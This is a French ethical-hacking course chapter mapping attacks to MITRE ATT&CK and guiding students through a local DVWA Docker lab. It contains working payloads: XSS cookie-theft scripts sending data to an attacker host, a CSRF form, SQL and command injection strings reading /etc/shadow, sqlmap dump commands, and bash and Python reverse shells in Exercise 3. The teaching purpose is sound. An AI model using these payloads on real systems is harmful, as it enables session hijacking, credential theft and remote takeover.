


# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités

---

## Objectifs pédagogiques

- Comprendre le référentiel MITRE ATT&CK et savoir naviguer dans sa matrice
- Distinguer les profils d'attaquants et leurs motivations
- Cartographier les attaques courantes (phishing, DDoS, injections SQL) aux techniques ATT&CK
- Prendre en main les outils fondamentaux : nmap, Metasploit, Wireshark
- Identifier et exploiter les failles web : XSS, CSRF, injection SQL, command injection
- Lancer un environnement Docker vulnérable et réaliser un premier scan

---

## Introduction

Toute démarche de sécurité — offensive comme défensive — commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il est indispensable de disposer d'un **langage commun** pour décrire les comportements adverses.

Ce chapitre introduit le référentiel **MITRE ATT&CK**, qui deviendra votre boussole tout au long de cette formation. Chaque attaque, chaque vulnérabilité, chaque technique sera systématiquement rattachée à une entrée de la matrice ATT&CK. C'est le standard industriel adopté par les SOC, les équipes de threat intelligence et les pentesters.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/) — The MITRE Corporation.

---

## Dépendances / Prérequis

- Docker et Docker Compose installés sur la machine Kali
- Outils préinstallés sur Kali : `nmap`, `metasploit-framework`, `wireshark`, `burpsuite`, `sqlmap`
- Lancer l'environnement : `docker-compose up -d dvwa`

---

## 1. MITRE ATT&CK — Le référentiel universel

### Comprendre le concept

MITRE ATT&CK est une base de connaissances qui référence les tactiques, techniques et procédures (TTPs) utilisées par les groupes cybercriminels et les APTs (Advanced Persistent Threats). Elle est organisée en 14 tactiques et plus de 200 techniques.

**Tactique** = le « pourquoi » (objectif de l'attaquant : prise d'accès initial, escalade de privilèges, exfiltration…)
**Technique** = le « comment » (méthode concrète : phishing, buffer overflow, injection SQL…)
**Procédure** = l'implémentation spécifique d'un groupe d'attaquants

### Les 14 tactiques de la matrice Entreprise



> **Sources :** [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/) — MITRE.

### Pourquoi normaliser avec ATT&CK ?

- **Langage commun** : le pentester et le défenseur parlent le même vocabulaire
- **Mesure de couverture** : on sait exactement quelles techniques sont testées et lesquelles sont protégées
- **Priorisation** : les techniques les plus utilisées par les vrais attaquants guident les efforts
- **Rapport professionnel** : chaque vulnérabilité est taguée ATT&CK, facilitant la compréhension par les SOC/CERT

### Naviguer dans la matrice

```
Matrice simplifiée JOUR 1
┌─────────────────────┬──────────────────────────────────────────────┐
│ Tactique (TA)       │ Techniques (T)                               │
├─────────────────────┼──────────────────────────────────────────────┤
│ TA0001 Reconnaissance│ T1595 Active Scanning                        │
│ TA0003 Initial Access│ T1566 Phishing, T1190 Exploit Public-Facing  │
│                      │ T1189 Drive-by Compromise (XSS→session steal)│
│ TA0043 Reconnaissance│ T1046 Network Scanning (nmap)                │
└─────────────────────┴──────────────────────────────────────────────┘
```

---

## 2. Types de hackers et panorama des attaques

### Profils d'attaquants



Chaque groupe APT documenté dans MITRE ATT&CK possède une fiche dédiée avec ses techniques favorites. Exemple : APT29 (Cozy Bear) utilise T1566 (Spearphishing), T1059 (Command Scripting), T1027 (Obfuscated Files).

### Panorama des attaques — Mapping ATT&CK

| Attaque | Technique ATT&CK | ID | Tactic | Impact |
|---------|-----------------|-----|--------|--------|
| Phishing | Spearphishing Attachment | T1566.001 | Initial Access | Compromission de comptes |
| DDoS | Endpoint Denial of Service | T1499 | Impact | Indisponibilité de service |
| Injection SQL | Exploit Public-Facing Application | T1190 | Initial Access | Vol/exfiltration de données |
| XSS | Drive-by Compromise | T1189 | Initial Access | Vol de session, defacement |
| CSRF | Exploitation for Client Execution | T1203 | Execution | Actions non autorisées |

> **Sources :** [ATT&CK Techniques](https://attack.mitre.org/techniques/enterprise/) — MITRE.

---

## 3. Outils de l'attaquant

### nmap — Cartographie réseau → T1046 Network Service Scanning

nmap est l'outil de reconnaissance réseau par excellence. Il permet d'identifier les hôtes actifs, les ports ouverts et les versions de services.

```bash
# Scan basique d'un hôte
nmap -sV <IP>

# Scan rapide de sous-réseau
nmap -F <IP>/24

# Détection d'OS et versions avec scripts par défaut
nmap -A <IP>

# Scripts NSE pour vulnérabilités
nmap --script vuln <IP>
```

### Metasploit — Framework d'exploitation

Metasploit intègre des milliers d'exploits et de payloads. Il est au cœur des phases TA0003 → TA0004 → TA0006 du cycle ATT&CK.

```bash
# Lancer la console
msfconsole

# Rechercher un exploit par CVE ou mot-clé
search CVE-2017-0144

# Configurer et lancer un exploit
use exploit/<chemin>
set RHOSTS <IP>
exploit
```

### Wireshark — Analyse de paquets → T1040 Network Sniffing

```bash
# Filtres utiles
http                    # Trafic HTTP uniquement
tcp.port == 80          # Port 80
ip.addr == <IP>         # Trafic lié à une IP
tcp.flags.syn == 1      # Paquets SYN (début de connexion)
```

> **Sources :** [nmap Network Scanning](https://nmap.org/book/) — Gordon Lyon. [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) — Offensive Security.

---

## 4. Vulnérabilités web — Mapping ATT&CK

### XSS (Cross-Site Scripting) → T1189 Drive-by Compromise

Un attaquant injecte du JavaScript malveillant exécuté dans le navigateur de la victime.

**Reflected XSS :** le payload fait partie de la requête (URL) et est reflété immédiatement.
**Stored XSS :** le payload est stocké en base de données et exécuté à chaque affichage.

**Payload classique :**
```html
<script>alert('XSS')</script>
```

**Payload de vol de cookie (session hijacking) :**
```html
<script>
fetch('http://<KALI_IP>:8000/?c=' + document.cookie);
</script>
```

**Impact ATT&CK :** Un XSS réussi permet du Credential Access (T1539 Steal Web Session Cookie).

### CSRF (Cross-Site Request Forgery) → T1203 Exploitation for Client Execution

Le CSRF force un utilisateur authentifié à exécuter une action sans son consentement.

```html
<!-- Page malveillante hébergée côté attaquant -->
<html>
<body>
  <form action="http://<TARGET>/change_password.php" method="POST" id="csrf">
    <input type="hidden" name="new_password" value="hacked">
    <input type="hidden" name="confirm_password" value="hacked">
  </form>
  <script>document.getElementById('csrf').submit();</script>
</body>
</html>
```

### Injection SQL → T1190 Exploit Public-Facing Application

L'injection SQL consiste à insérer du code malveillant dans une requête SQL via les entrées utilisateur non filtrées.

**Contournement d'authentification :**
```sql
admin' OR '1'='1' --
```

**Extraction de données (UNION-based) :**
```sql
' UNION SELECT username, password FROM users --
```

### Command Injection → T1059 Command and Scripting Interpreter

Exécution de commandes système via une entrée utilisateur.

```bash
; ls -la /etc/passwd
| whoami
&& cat /etc/shadow
```

---

## 5. Introduction à l'environnement de lab Docker

Tous les labs de cette formation utilisent Docker. Chaque conteneur expose un service vulnérable isolé.

```bash
# Lancer tous les conteneurs
docker-compose up -d

# Lancer uniquement le conteneur nécessaire au jour 1
docker-compose up -d dvwa

# Voir les conteneurs actifs
docker-compose ps

# Arrêter tout
docker-compose down
```

**Architecture du jour 1 :** DVWA expose sur `http://localhost:8080` une application web volontairement vulnérable avec XSS, CSRF, SQLi et Command Injection.

```
┌──────────┐         ┌──────────────────┐
│   Kali   │ ◄─────► │  Docker DVWA     │
│ Attaquant│  :8080  │  (web vulnérable)│
└──────────┘         └──────────────────┘
```

> **Sources :** [DVWA GitHub](https://github.com/digininja/DVWA) — digininja.

---

## Lab 1 : Prise en main DVWA et ATT&CK Navigator

**Durée estimée :** 1h30

**Contexte :** Machine Kali. Conteneur DVWA en cours d'exécution.

### Objectif

Prendre en main l'environnement Docker, naviguer dans MITRE ATT&CK, identifier et exploiter des vulnérabilités web basiques sur DVWA.

### Étape 1 — Lancement de l'environnement

```bash
# Depuis la racine du projet
cd techniques-hacking-mdj
docker-compose up -d dvwa

# Vérifier que DVWA est accessible
curl -I http://localhost:8080

# Ouvrir dans le navigateur
firefox http://localhost:8080
```

**Credentials DVWA :** `admin` / `password`

Une fois connecté, cliquer sur **DVWA Security** en bas à gauche et régler le niveau sur **low**.

### Étape 2 — Scan du conteneur

```bash
# Scanner le conteneur DVWA
nmap -sV -p- localhost -P0

# Résultat attendu :
# PORT     STATE SERVICE VERSION
# 8080/tcp open  http    Apache httpd 2.4.x
```

### Étape 3 — Explorer MITRE ATT&CK Navigator

1. Aller sur https://mitre-attack.github.io/attack-navigator/
2. Créer une nouvelle « layer »
3. Ajouter les techniques vues aujourd'hui :
   - T1566 (Phishing)
   - T1190 (Exploit Public-Facing Application)
   - T1189 (Drive-by Compromise)
   - T1046 (Network Service Scanning)
   - T1059.004 (Unix Shell)

### Étape 4 — Exploitation XSS (Reflected)

Sur DVWA, section **XSS (Reflected)** :

```html
<script>alert('XSS fonctionnel')</script>
```

**Vérification :** Une popup JavaScript doit apparaître. L'application ne filtre pas l'entrée.

**Payload avancé — vol de cookie :**
```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

```bash
# Côté Kali : lancer un écouteur HTTP
python3 -m http.server 8000
```

### Étape 5 — Exploitation Injection SQL

Sur DVWA, section **SQL Injection** :

```
# Entrer dans le champ User ID :
1' OR '1'='1' #
```

La requête devient : `SELECT * FROM users WHERE id='1' OR '1'='1' #'`
→ Contournement du filtre et affichage de tous les utilisateurs.

**Extraction avancée avec sqlmap :**
```bash
# Récupérer le cookie de session DVWA d'abord (dans le navigateur)
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  --dbs

# Extraire les tables
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  -D dvwa --tables

# Dumper les mots de passe
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  -D dvwa -T users --dump
```

**Résultat attendu :** Extraction des hashs de mot de passe des utilisateurs DVWA.

### Étape 6 — Command Injection

Sur DVWA, section **Command Injection** :

```
# Champ IP :
127.0.0.1; ls /etc/
127.0.0.1; cat /etc/passwd
127.0.0.1; whoami
```

L'application exécute `ping` puis la commande injectée. Résultat : accès au système de fichiers du conteneur.

### Checkpoints

- [ ] DVWA accessible sur http://localhost:8080
- [ ] Scan nmap réalisé avec version des services
- [ ] Couche ATT&CK Navigator créée avec les 5 techniques du jour
- [ ] XSS reflété : popup JavaScript ou cookie capturé sur l'écouteur HTTP
- [ ] SQLi : affichage des 5 utilisateurs ou extraction sqlmap
- [ ] Command injection : contenu de /etc/passwd affiché

### Sortie attendue — sqlmap

```
[INFO] fetching tables for database: 'dvwa'
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

Database: dvwa
Table: users
[5 entries]
+---------+------------+----------+---------+
| user_id | user       | password | avatar  |
+---------+------------+----------+---------+
| 1       | admin      | 5f4d...  | /hack...|
| 2       | gordonb    | e99a...  | /hack...|
| 3       | 1337       | 8d35...  | /hack...|
| 4       | pablo      | 0d10...  | /hack...|
| 5       | smithy     | 5f4d...  | /hack...|
+---------+------------+----------+---------+
```

### Erreurs fréquentes

- **DVWA inaccessible** : vérifier `docker-compose ps`. Si down → `docker-compose up -d dvwa`
- **sqlmap cookie erreur** : le cookie expire. Recharger la page DVWA et copier le nouveau cookie
- **XSS pas d'alerte** : vérifier que le niveau de sécurité DVWA est sur **low**
- **Command injection muette** : essayer `; id` ou `| whoami` au lieu de `&&`

### Validation technique

```bash
# Vérification syntaxe
python3 -m py_compile labs/jour1/*.py 2>/dev/null || echo "Pas de scripts Python"

# Vérification fonctionnelle
curl -s http://localhost:8080 | head -5
```

---

## Exercices

### Exercice 1 : Première couche ATT&CK Navigator

**Énoncé :** Ouvrez ATT&CK Navigator et créez une couche contenant uniquement les 5 techniques vues aujourd'hui. Exportez-la en JSON.

**Contexte :** https://mitre-attack.github.io/attack-navigator/

<details>
<summary><strong>Solution</strong></summary>

**Étape 1 :** Aller sur le Navigator, cliquer "Create New Layer", choisir "Enterprise ATT&CK v15"

**Étape 2 :** Dans la barre de recherche, ajouter une à une :
- `T1566` → Phishing
- `T1190` → Exploit Public-Facing Application
- `T1189` → Drive-by Compromise
- `T1046` → Network Service Scanning
- `T1059.004` → Unix Shell

**Étape 3 :** Colorer chaque technique (ex: rouge = testé, orange = à tester)

**Étape 4 :** Exporter → "Download as JSON"
</details>

### Exercice 2 : Mapping d'attaque réelle

**Énoncé :** L'attaque WannaCry (2017) utilisait EternalBlue pour se propager. Retrouvez dans ATT&CK quelle technique correspond à EternalBlue.

<details>
<summary><strong>Solution</strong></summary>

**EternalBlue (CVE-2017-0144)** → Technique ATT&CK : **T1210 Exploitation of Remote Services**

- Tactique : TA0008 Lateral Movement
- Description : l'exploit cible le service SMBv1 sur le port 445 pour exécuter du code à distance
- Groupe connu : Lazarus Group (APT38) utilise cette technique
</details>

### Exercice 3 : DVWA — Command Injection avancée

**Énoncé :** Sur la page Command Injection de DVWA, essayez d'écrire un reverse shell vers votre Kali.

<details>
<summary><strong>Solution</strong></summary>

```bash
# Côté Kali : écouter sur le port 4444
nc -lvnp 4444

# Dans DVWA Command Injection :
; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'

# Alternative si bash -i bloqué :
; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<KALI_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Si ça ne marche pas, vérifier que le conteneur peut joindre Kali (ils sont sur le même réseau Docker bridge). Utiliser `ip addr show docker0` pour trouver le bridge IP.
</details>

---

## Points clés à retenir

- MITRE ATT&CK est votre référentiel : chaque attaque se mappe à une technique (ID commençant par T)
- Les 14 tactiques couvrent le cycle complet d'une attaque, de la reconnaissance à l'impact
- Les outils fondamentaux sont nmap (T1046), Metasploit, Wireshark (T1040)
- XSS → T1189 (Drive-by Compromise), SQLi → T1190 (Exploit Public-Facing Application)
- Command Injection → T1059.004 (Unix Shell)
- L'environnement de lab utilise Docker : reproductible, isolé, standardisé
- DVWA expose les 4 familles de vulnérabilités web sur un seul conteneur

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [ATT&CK for Enterprise — Full Matrix](https://attack.mitre.org/matrices/enterprise/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)

---

*Chapitre suivant : [Jour 2 — Tests de pénétration et exploitation](./JOUR-02.md)*
